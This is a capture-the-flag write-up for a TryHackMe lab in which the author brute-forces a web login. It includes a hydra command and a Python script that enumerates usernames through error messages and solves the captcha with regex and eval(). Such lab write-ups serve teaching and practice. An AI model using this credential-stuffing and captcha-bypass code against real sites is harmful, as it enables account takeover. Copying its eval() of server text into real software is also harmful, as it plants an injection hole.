

# Capture! Writeup

This room can be found at https://tryhackme.com/room/capture

This room is created by TryHackMe and toxica0r

# Task 1

The first task is to download a zip file which contains 2 text files. 
```
usernames.txt
passwords.txt
```

Its safe to assume one of the combinations of username and passwords are correct.

# Task 2

The second task is to find the flag.

## NMap

First, I scanned with nmap to see which ports are open.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```

There is a python server open at port 80, accessing with a web browser,


Trying to login with dummy credentials shows an error `'username' does not exist`

## Hydra

Since the error message shows that a user does not exist, this can be used to show that a user exists if the error message is not returned.

Hydra might be able to bruteforce a correct username.

Using the command
```
hydra -L usernames.txt -P passwords.txt 10.10.161.99 http-post-form '/login:username=^USER^&password=^PASS^:does not exist'
```

hydra says that every password is correct, which is not the case.

Going back to the browser, I saw that there was an error message that says `Too many bad login attempts!`

The webpage then provides a captcha.

This prevents me from using hydra to bruteforce.

I'll need a different way to bypass this captcha.


## Python
I was unsure of what tools to actually use to bypass the captcha. So I decided to take a look at the room forums for some hints. 

Many people were talking about using python so I decided to do some research on this.

Python has many different ways to request URLs. Such as `BeautifulSoup` and `Requests`.

I was not exactly sure how to script this in python, so I decided to look at some of the existing write-ups to see how other people perform the requests and bypass the captcha.

### Sending requests
The first step is to form the request.

```
# Function to send the web request, sends captcha as well if given
def send_request(username, password, captcha=None):
	data = {
		'username':username,
		'password':password
	}
	if captcha:
		data.update({'captcha':captcha})
	response = requests.post(url=url, data=data)
	return response
```

This python function will create and send the post request to the server. If there is a captcha answer provided, it will append that to the request as well.

### Extracting and solving the captcha
Next is a function that will grab the captcha question from the response and get the correct answer for the next request.

```
# Function to solve the captcha using regex to find the question
# and use eval() to evaluate the string
def solve_captcha(response):
	regexResult = re.findall(regex, response.text)
	#print(regexResult)
	if regexResult is not None: 
		captcha = regexResult[0]
		result = eval(captcha)
		#print(result)
		return result
```

This function will make use of regular expressions to extract the captcha question.

With some testing, the questions are always in the format of 3 digits, an operator and 2 digits. And the operation is only add, subtract or multiply.

Using a regex generator,
```
regex = re.compile(r'(\d+\s[+*/-]\s\d+)\s\=\s\?')
```
I created a regex using the `re` package in python.

The regex will extract the question and pass it to python's `eval()` function which will evaluate a string.

The answer is then passed to the send request function to be used.

### Looping through the usernames and passwords

The main part of the script will loop through the usernames until a valid username is found and then it will loop through the passwords until a valid combination is found

```
# Loops through the usernames until existing username is found
# Then loops through the passwords until the correct combination is found
for username in usernames:
	print(f'Current Username: {username}')
	response = send_request(username, "None", None)

	if 'Captcha enabled' in response.text:
		captcha = solve_captcha(response)
		response = send_request(username, "None", captcha)

	if not 'does not exist' in response.text:
		for password in passwords:
			print(f'Current Password: {password}')
			response = send_request(username, password, captcha)
			if not 'Error' in response.text:
				print(f'Combination found!')
				print(f'{username}:{password}')
				exit(0)
			else:
				captcha = solve_captcha(response)
```

Since searching for a valid username does not require a password, a dummy password `None` is used. And the first request will be send without a captcha answer as I do not know the captcha question.

If the response contains the text `Captcha enabled` it will then run the `solve_captcha` function. 

If a valid username is found, the response will NOT contain the text `does not exist`. So the script will use that username and start testing the passwords.

If the response does not contain the text `Error`, it means the correct password is found. It will then print the username and password combination.

## Running the script

After running for awhile it returns the output
```
natalie:sk8board
```

Using this to login to the webpage reveals the flag.



# Conclusion

After attempting this room, I found out that I am still not very good at my python scripting skills and knowing which packages to use. I will need to brush up on my python scripting skills especially the syntax.

